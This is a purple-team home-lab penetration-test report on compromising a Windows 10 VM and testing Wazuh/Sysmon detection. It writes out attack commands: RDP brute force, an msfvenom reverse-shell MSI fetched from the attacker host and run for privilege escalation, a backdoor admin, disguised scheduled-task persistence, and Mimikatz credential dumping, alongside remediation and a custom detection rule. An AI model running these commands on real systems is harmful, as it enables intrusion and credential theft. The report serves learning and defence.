










# Penetration Test Report: Purple-Team Home Lab

| | |
|---|---|
| **Engagement** | Self-directed purple-team exercise (portfolio project) |
| **Environment** | Isolated VirtualBox NAT network, attacker-owned hardware |
| **Target** | Windows 10 Pro workstation (`DESKTOP-RVJTQU1`, 10.0.2.15) |
| **Tester** | Mazen Ashraf |
| **Date of testing** | 2026-11-03 (all times Africa/Cairo, UTC+2) |
| **Report version** | 1.0 |
| **Classification** | Lab data, safe to share |

---

## 1. Executive Summary

This project does two things at once: it runs a realistic attack on a single
Windows 10 machine, and it checks how much of that attack a free monitoring
setup (Wazuh SIEM + Sysmon) actually notices. Everything ran on my own laptop
inside an isolated virtual lab with no connection to any real network. I built
it to learn and to show what I can do.

Starting from the network with no credentials, I reached **full administrator
(SYSTEM) control** of the machine in about two hours. Nothing about the path was
advanced: a user had a weak password (`password123`) and was reachable over
Remote Desktop, and once I had a foothold, a common Windows misconfiguration let
a standard user install software with administrator rights. From there I created
a hidden backup admin account, established persistence so it survived reboots, and
dumped the stored credential hashes from LSASS memory.

The thing worth remembering: **none of these weaknesses were advanced.** Each one
is well known and has a simple fix. The real damage came from them chaining
together, a weak password on a remote-access service, then a misconfiguration
that escalated a limited user to administrator.

On the defensive side, the monitoring did better than I expected on the noisy
techniques. It flagged the brute force, the ingress tool transfers, and the
rogue admin account. But it was **completely blind to credential dumping**, which
is one of the most damaging actions an attacker can take. That became the main
point of the project: I wrote and validated a custom detection rule to close that
gap, which raised full detection coverage from **4 to 5 of the 10 techniques** and
turned the credential-dumping step from *undetected* into a *high-severity
alert*.

### Key findings at a glance

| # | Finding | Severity |
|---|---------|:--------:|
| F-1 | `AlwaysInstallElevated` enabled (local privilege escalation) | **High** |
| F-2 | Weak password + no effective account-lockout on an exposed account | **High** |
| F-3 | Remote Desktop (RDP) exposed on the network | **Medium** |
| F-4 | Credential dumping from LSASS possible | **Medium** |
| F-5 | Detection gaps (credential dumping, scheduled-task persistence) | **Medium** |

---

## 2. Scope & Rules of Engagement

**In scope:** a single Windows 10 Pro VM (`10.0.2.15`) that I own and operate,
within an isolated VirtualBox NAT network on my own host machine.

**Lab topology (3 VMs, one NAT network):**

| Role | OS | IP | Notes |
|------|----|----|-------|
| Attacker | Kali Linux | 10.0.2.3 | Offensive tooling |
| Victim | Windows 10 Pro | 10.0.2.15 | `DESKTOP-RVJTQU1`; Sysmon + Wazuh agent "Victim-1" |
| SIEM | Ubuntu (Wazuh OVA) | 10.0.2.4 | Wazuh manager + dashboard |

**Authorization:** All systems are my personal property. Nothing in this
engagement touched any third-party, production, or internet-facing system. This
is an educational exercise for a cybersecurity-internship portfolio.

### Deliberately planted weaknesses

To create a realistic target, I pre-seeded the following misconfigurations.
These are the conditions the test was designed to exploit and form the basis of
the findings in Section 4:

1. Weak user `jsmith` / `password123`, added to the **Remote Desktop Users** group.
2. **RDP** exposed on port **3389**.
3. **`AlwaysInstallElevated = 0x1`** in **both** `HKLM` and `HKCU`.

### Important scoping note, Microsoft Defender

During the privilege-escalation phase, Microsoft Defender's real-time
protection **correctly detected and deleted** my first MSI payload, a genuine,
successful detection by the endpoint AV. To then test the **SIEM's** detection
capability in isolation (the actual goal of this project), I manually disabled
Defender real-time protection and added an exclusion.

**This is a test-scoping decision, not a finding.** Disabling AV is not a
recommendation; it was done solely to evaluate what the Wazuh/Sysmon layer would
catch without AV masking the activity. In any real environment, Defender should
remain enabled, and in this lab it proved its value by stopping the payload on
the first attempt.

---

## 3. Attack Narrative

All timestamps are Africa/Cairo (UTC+2). *Note: the Wazuh dashboard initially
displayed times ~10 hours off due to a default Pacific time-zone setting; I
corrected the Windows time zone to Cairo mid-session, so all times below are
aligned to Cairo local time.*

### 3.1 Reconnaissance: `T1046`

A full TCP port/service scan of the target:

```bash
nmap -Pn -sC -sV -p- 10.0.2.15
```

This revealed **3389/tcp (RDP)** and **7680/tcp** open, and confirmed the host
name `DESKTOP-RVJTQU1`. RDP immediately stood out as the most promising entry
point, a remote-access service that, if an account had a weak password, would
grant an interactive session.

### 3.2 Credential Attack over RDP: `T1110.001`

I first tried NetExec's RDP module, which failed (the module proved unreliable
against this target). I then switched to Hydra:

```bash
hydra -l jsmith -P small.txt rdp://10.0.2.15
```

This phase produced the first real-world lessons of the engagement:

- **Windows 10's default account-lockout policy locked `jsmith`.** The
  repeated guesses tripped the built-in lockout, denying further attempts, a
  defensive control working as intended.
- **Hydra's RDP brute-forcing was slow and noisy,** and a heavy run even
  **bluescreened the host**, underscoring how destabilising and detectable this
  approach is against RDP.

This friction is documented as a finding in its own right: noisy brute force
against RDP is both unreliable for an attacker and loud for defenders, which is
exactly why it was the one phase the SIEM caught cleanly (1,157 failed-logon
events).

### 3.3 Initial Access: `T1078`, `T1021.001`

To proceed past the self-inflicted lockout (the password was already known from
the lab design), I unlocked the account and disabled the lockout threshold on
the victim, then logged in over RDP with the known weak credentials:

```bash
xfreerdp3 /u:jsmith /p:password123 /v:10.0.2.15 /cert:ignore
```

The session connected (the "Another user is signed in" prompt confirms an
interactive RDP takeover), landing me on the desktop as `jsmith`.



### 3.4 Enumeration: `T1033`, `T1012`

From the `jsmith` session I confirmed my privilege level and hunted for
escalation paths:

```cmd
whoami /groups
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

`whoami /groups` showed a **Medium Mandatory Level** (standard, non-admin) token.
Critically, both registry hives returned **`AlwaysInstallElevated = 0x1`**, the
misconfiguration that allows any user to install an MSI package with SYSTEM
privileges.



### 3.5 Privilege Escalation: `T1548.002`, `T1218.007`, `T1105`

With `AlwaysInstallElevated` confirmed, I built a malicious MSI that spawns a
reverse shell, delivered it to the target, and executed it via `msiexec`:

```bash
# On Kali, build the MSI payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.3 LPORT=4444 -f msi -o setup.msi
# Serve it
python3 -m http.server 8000
# Listener
nc -lvnp 4444
```

```cmd
:: On the victim (as jsmith)
certutil -urlcache -split -f http://10.0.2.3:8000/setup.msi
msiexec /quiet /qn /i setup.msi
```

The listener caught a shell running as **`nt authority\system`**, a full
privilege jump from a limited user to the highest local privilege, using nothing
but the built-in Windows installer and a planted policy value.

> **Defender detection (genuine):** The *first* payload delivery was detected
> and deleted by Microsoft Defender in real time, a legitimate AV win. As
> described in Section 2, I then disabled Defender real-time protection
> (`T1562.001`) **to isolate and test SIEM-only detection**, and re-ran the step.

### 3.6 Persistence: `T1136.001`, `T1053.005`

From the SYSTEM shell I established two independent footholds: a backdoor
administrator account and a scheduled task disguised as a legitimate service.

```cmd
net user svc_backup Winter2026! /add
net localgroup administrators svc_backup /add
certutil -urlcache -split -f http://10.0.2.3:8000/updater.exe C:\Users\Public\updater.exe
schtasks /create /tn "OneDrive Sync Helper" /tr C:\Users\Public\updater.exe /sc onlogon /ru SYSTEM
```

The `updater.exe` persistence payload was built separately on Kali:



The SYSTEM shell below shows the backdoor admin being created and `certutil`
pulling the persistence binary into `C:\Users\Public`:



### 3.7 Credential Dumping: `T1003.001`

With SYSTEM rights, I dumped cached credentials from LSASS memory using Mimikatz:

```
privilege::debug
sekurlsa::logonpasswords
```

This returned the NTLM hashes for the logged-on accounts, including `jsmith`.



Recovered (lab data):

| Account | NTLM hash |
|---------|-----------|
| `jsmith` | `a9fdfa038c4b75ebc76dc855dd74f0da` |
| `Virtual` (admin) | `1f7da2c18a55ffe8d00e79a4fde2bbd8` |

### 3.8 Offline Password Cracking: `T1110.002`

The captured hash was cracked offline with John the Ripper:

```bash
john --format=NT ~/lab/jsmith.hash
john --show --format=NT ~/lab/jsmith.hash
```

`jsmith`'s hash cracked **instantly** to `password123`, demonstrating that a
weak password offers no protection even after the hash is stolen.



---

## 4. Findings

Severity reflects likelihood × impact in a realistic environment. Each finding
includes concrete remediation.

### F-1 (Severity: High): `AlwaysInstallElevated` enabled (Local Privilege Escalation)

| | |
|---|---|
| **ATT&CK** | T1548.002 (Abuse Elevation Control Mechanism), T1218.007 (Msiexec) |
| **Evidence** | `screenshots/06-enum-alwaysinstallelevated.png`, `03-system-shell-persistence.png` |

**Description.** `AlwaysInstallElevated` was set to `0x1` in **both** `HKLM` and
`HKCU`. When enabled in both hives, this policy lets *any* user install an MSI
package with SYSTEM privileges. A standard, non-admin user (`jsmith`) used it to
go from Medium-integrity to `nt authority\system`.

**Impact.** Complete local system compromise from any low-privileged foothold.
This single misconfiguration converts minor access into total control of the
host.

**Remediation.**
- Set both registry values to `0` (or remove the policy):
  `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated = 0`
  and the same under `HKCU`.
- Enforce via Group Policy: *Computer/User Configuration -> Administrative
  Templates -> Windows Components -> Windows Installer -> "Always install with
  elevated privileges" = Disabled.*
- Audit the fleet for this value; it is a classic privilege-escalation path.

### F-2 (Severity: High): Weak Password + No Effective Lockout on an Exposed Account

| | |
|---|---|
| **ATT&CK** | T1110.001, T1110.002, T1078 |
| **Evidence** | `screenshots/02-rdp-initial-access.png`, `05-john-crack.png` |

**Description.** The account `jsmith` used `password123`, trivially guessable
and instantly crackable offline. While Windows' *default* lockout did trip
during brute force (a positive), it had to be weakened to proceed, and the
underlying password remained the root weakness. A weak password on a
remote-accessible account is the single most common cause of real-world
intrusions.

**Impact.** Direct initial access to the workstation. Combined with F-1, this
leads straight to full compromise.

**Remediation.**
- Enforce a strong password policy (length at least  14, complexity, banned-password
  list) and screen against known-breached passwords.
- Keep (and tune, do not disable) account-lockout: a threshold of 5-10 with an
  observation window, balancing brute-force resistance against DoS risk.
- **Require MFA** for all remote access.
- Treat the recovered credentials as compromised: reset `jsmith` and any reused
  passwords.

### F-3 (Severity: Medium): Remote Desktop (RDP) Exposed

| | |
|---|---|
| **ATT&CK** | T1021.001 (Remote Services: RDP) |
| **Evidence** | `screenshots/02-rdp-initial-access.png` |

**Description.** RDP (3389/tcp) was reachable on the network and accepted the
compromised credentials for an interactive session. Exposed RDP is one of the
most frequently abused initial-access vectors in real incidents (ransomware in
particular).

**Impact.** Provides a direct, interactive entry point that amplifies the risk
of every credential weakness.

**Remediation.**
- Do not expose RDP to untrusted networks; place it behind a **VPN** or a
  Remote Desktop Gateway.
- Require **Network Level Authentication (NLA)** and **MFA**.
- Restrict access to specific source hosts/users via firewall and the Remote
  Desktop Users group.
- Monitor and alert on RDP logon anomalies (see F-5).

### F-4 (Severity: Medium): Credential Dumping from LSASS Possible

| | |
|---|---|
| **ATT&CK** | T1003.001 (OS Credential Dumping: LSASS Memory) |
| **Evidence** | `screenshots/04-mimikatz-ntlm-dump.png` |

**Description.** With SYSTEM rights, LSASS memory was read and NTLM hashes
extracted. These enable offline cracking (F-2) and lateral movement
(pass-the-hash) to other systems.

**Impact.** Harvested credentials enable spread beyond the initial host, the
pivot that turns a single-machine compromise into a domain/network incident.

**Remediation.**
- Enable **Credential Guard** (virtualization-based LSASS protection).
- Enable **LSA Protection (RunAsPPL)** so LSASS runs as a protected process.
- **Keep AV/EDR enabled**, in this lab Defender stopped the initial payload
  outright.
- Detect the activity (see F-5) so that even a successful dump raises an alert.

### F-5 (Severity: Medium): Detection Gaps (Credential Dumping & Scheduled-Task Persistence)

| | |
|---|---|
| **ATT&CK** | T1003.001, T1053.005 |
| **Evidence** | `screenshots/09-wazuh-lsass-gap.png`, `08-wazuh-events-caught.png`, `10-wazuh-custom-rule-firing.png` |

**Description.** The default Wazuh + Sysmon stack produced **no alert** for
credential dumping, and the scheduled-task persistence logged only at level 4
(buried in noise). LSASS access via Sysmon event 10 was not logged at all. These
are high-value attacker actions that a defender would have missed.

**Impact.** An attacker could steal credentials and establish persistence
without tripping any meaningful alert, the difference between catching an
intrusion early and discovering it after damage is done.

**Remediation (implemented).** I engineered a custom Wazuh rule
(`rule.id 100101`, level 15, tagged T1003.001) that matches known
credential-dumping command-line strings. After deployment, every Mimikatz run
raises a high-severity alert. See the
[detection-coverage table](detection-coverage.md) and
[`../detection/local_rules.xml`](../detection/local_rules.xml). Scheduled-task
persistence should likewise be raised to a triage-worthy level and reviewed.

---

## 5. Detection Summary (Blue-Team Result)

The same attack was evaluated against the monitoring stack. Full technique-by-
technique mapping is in [detection-coverage.md](detection-coverage.md).

**Default stack caught:** brute force (1,157 failed logons), `certutil`
downloads (rule 92075), payloads dropped in `C:\Users\Public` (rules
92207/92213), and the backdoor admin added to Administrators (rule 60154,
"Administrators Group Changed", level 12).





**Default stack missed:** credential dumping (no alert) and scheduled-task
persistence (level 4, lost in noise). LSASS access (Sysmon event 10) was not
logged, a search returned **No results**:



**After custom detection engineering**, every credential-dump attempt now fires
a level-15 alert:



**Headline:** fully-detected techniques rose from **4 to 5 of 10**, and the
critical credential-access stage went from undetected to a high-severity alert.

---

## 6. Limitations & Honest Notes

This is a single-host lab and I'm still early in my security career, so I want to
be upfront about where it stops:

- **One workstation, not a whole network.** No Active Directory, no lateral
  movement across hosts. Everything here is scoped to this one machine.
- **No network IDS.** Network-level activity like the port scan (T1046) wasn't
  detectable with host-based telemetry alone.
- **I disabled Defender to test the SIEM**, that weakened the target and is *not*
  something you'd do in production (see Section 2). That Defender detected my
  first payload is actually a point in its favour.
- **I disabled the lockout to proceed** after the brute force locked the account.
  In a real engagement I wouldn't already know the password.
- **Plenty went wrong and I worked through it:** NetExec's RDP module failed,
  Hydra was slow and noisy and bluescreened the host, Defender deleted my first
  payload, and the LSASS-access detection (Sysmon event 10) wouldn't log, so I
  pivoted to a command-line rule. I left all of that in on purpose.

---

## Appendix A: Full Attack Log (Timeline)

All times Africa/Cairo (UTC+2), 2026-11-03.

| # | Time | Machine | Action | Result | ATT&CK |
|---|------|---------|--------|--------|--------|
| 1 | 16:38 | Kali | `nmap -Pn -sC -sV -p- 10.0.2.15` | 3389/RDP + 7680 open; host `DESKTOP-RVJTQU1` | T1046 |
| 2 | 16:56 | Kali | `nxc rdp 10.0.2.15 -u jsmith -p small.txt` | Failed (NetExec RDP module unreliable) | T1110.001 |
| 3 | 17:29 | Kali | `hydra -l jsmith -P small.txt rdp://10.0.2.15` | Locked `jsmith` (default lockout); host bluescreened | T1110.001 |
| 4 | 17:45 | Windows | unlock `jsmith`; `net accounts /lockoutthreshold:0` | Lockout disabled (to proceed) | - |
| 5 | 18:07 | Kali | `xfreerdp3 /u:jsmith /p:password123 /v:10.0.2.15 /cert:ignore` | RDP login as `jsmith` | T1078, T1021.001 |
| 6 | 18:24 | Windows (jsmith) | `whoami /groups` | Medium integrity, non-admin | T1033 |
| 7 | 18:27 | Windows (jsmith) | `reg query ...\Windows\Installer` (HKLM + HKCU) | `AlwaysInstallElevated = 0x1` in both | T1012 |
| 8 | 18:30 | Kali | `msfvenom ... shell_reverse_tcp LPORT=4444 -f msi -o setup.msi` | Built malicious MSI | T1587.001 |
| 9 | 18:34 | Windows (jsmith) | `certutil ... setup.msi` | Defender detected & deleted it (genuine detection) | T1105 |
| 10 | 18:36 | Windows | Disabled Defender real-time protection + exclusion | AV out of the way (test scoping) | T1562.001 |
| 11 | 18:39 | Windows (jsmith) | `msiexec /quiet /qn /i setup.msi` | SYSTEM reverse shell (`whoami = nt authority\system`) | T1548.002, T1218.007 |
| 12 | 18:45 | Windows (SYSTEM) | `net user svc_backup /add` + Administrators; `schtasks "OneDrive Sync Helper"` (onlogon, SYSTEM) | Backdoor admin + scheduled task | T1136.001, T1053.005 |
| 13 | 19:08 | Windows (SYSTEM) | `m.exe "privilege::debug" "sekurlsa::logonpasswords"` | Dumped NTLM hashes (`jsmith`, `Virtual`) | T1003.001 |
| 14 | 19:20 | Kali | `john --format=NT jsmith.hash` | Cracked `jsmith` -> `password123` | T1110.002 |

## Appendix B: Indicators of Compromise (IOCs)

| Type | Value |
|------|-------|
| Attacker IP | `10.0.2.3` |
| Listener / payload ports | `4444`, `4445`, `8000` |
| Backdoor account | `svc_backup` |
| Scheduled task | `OneDrive Sync Helper` |
| Dropped files | `C:\Users\Public\setup.msi`, `updater.exe`, `m.exe` |
| Command-line IOCs | `certutil -urlcache` downloads; `sekurlsa` in a process command line |
| `jsmith` NTLM | `a9fdfa038c4b75ebc76dc855dd74f0da` (-> `password123`) |
| `Virtual` NTLM | `1f7da2c18a55ffe8d00e79a4fde2bbd8` |

---

*This report documents authorized testing performed solely on the author's own
isolated lab systems, for educational and portfolio purposes.*
